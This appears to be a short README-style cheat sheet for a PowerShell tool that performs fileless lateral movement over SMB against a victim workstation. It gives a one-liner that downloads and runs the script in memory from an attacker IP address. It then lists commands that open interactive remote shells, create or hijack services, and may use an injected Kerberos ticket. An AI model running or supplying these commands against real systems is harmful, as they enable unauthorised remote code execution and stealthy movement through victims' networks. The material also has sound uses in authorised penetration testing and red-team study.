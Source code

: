 # FileLess Lateral Movement - Powershell Implementation
*NOTE: We need admin access to SMB on the victim, can be abused using also injected kerberos ticket!*
- Invoke the script: `iex(iwr http://192.168.45.223/Invoke-SMBRemoting -UseBasicParsing)`

### Cheetsheet:
<ins>Interactive Shell</ins>
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local"`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -PipeName Something -ServiceName RandomService`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -Verbose`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -ServiceName SensorService -Verbose`
